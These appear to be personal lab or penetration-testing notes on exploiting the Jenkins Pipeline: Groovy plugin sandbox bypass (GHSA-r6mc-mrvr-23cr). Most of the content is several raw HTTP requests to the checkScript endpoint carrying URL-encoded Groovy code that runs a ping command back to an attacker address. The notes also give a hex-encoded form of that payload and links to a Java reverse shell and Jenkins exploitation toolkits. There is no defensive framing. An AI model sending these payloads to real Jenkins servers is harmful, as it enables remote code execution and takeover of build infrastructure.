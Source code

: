 https://github.com/advisories/GHSA-r6mc-mrvr-23cr

### Description: Sandbox bypass in Jenkins Pipeline: Groovy Plugin
```
A sandbox bypass vulnerability exists in Jenkins Pipeline: Groovy Plugin 2.63 and earlier in pom.xml, src/main/java/org/jenkinsci/plugins/workflow/cps/CpsGroovyShell.java that allows attackers able to control pipeline scripts to execute arbitrary code on the Jenkins master JVM.
```

#1st
```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20%7B%0A%20%20public%20x()%7B%0A%22ping%20-c%201%2010.10.14.39%22.execute()%0A%7D%0A%7D HTTP/1.1
Host: 10.10.110.102:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Sec-Purpose: prefetch;prerender
Purpose: prefetch
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID.6d0ae5fa=node010s70njk6y02l1sosz3qzd1j8n1846.node0
Connection: close


```
#2nd 
```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20%7B%0A%20%20public%20x()%7B%0A%22ping%20-c%201%2010.10.14.39%22.execute()%0A%7D%0A%7D HTTP/1.1
Host: 10.10.110.102:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Sec-Purpose: prefetch;prerender
Purpose: prefetch
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID.6d0ae5fa=node010s70njk6y02l1sosz3qzd1j8n1846.node0
Connection: close
Upgrade-Insecure-Requests: 1


```

#3rd directly taken from:
https://www.nmmapper.com/st/exploitdetails/48904/43149/jenkins-263-sandbox-bypass-in-pipeline-groovy-plug-in/
```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20%7B%0A%20%20public%20x()%7B%0A%22ping%20-c%201%2010.10.14.39%22.execute()%0A%7D%0A%7D 
}
} HTTP/1.1
Host: 10.10.110.102:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 333

URL Encoding the following for RCE


```public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}

} ```



to



%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d
```
![[Pasted image 20240429121444.png]]
# tried with new cookie

```bash
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20%7B%0A%20%20public%20x()%7B%0A%22ping%20-c%201%2010.10.14.39%22.execute()%0A%7D%0A%7D 
}
} HTTP/1.1
Host: 10.10.110.102:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.6d0ae5fa=node010s70njk6y02l1sosz3qzd1j8n1846.node0
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```
![[Pasted image 20240429121713.png]]



JAVA rev shell

```bash
https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0
```


Crumb issue

```bash
https://stackoverflow.com/questions/16738441/how-to-request-for-the-crumb-issuer-for-jenkins
https://stackoverflow.com/questions/44711696/jenkins-403-no-valid-crumb-was-included-in-the-request
https://stackoverflow.com/questions/56179580/jenkins-groovy-pipeline-org-jenkinsci-plugins-scriptsecurity-sandbox-rejectedacc
```

pwn_Jenkins

```bash
https://github.com/gquere/pwn_jenkins
```

exploit

```bash
https://www.nmmapper.com/st/exploitdetails/48904/43149/jenkins-263-sandbox-bypass-in-pipeline-groovy-plug-in/
https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jenkins.md
```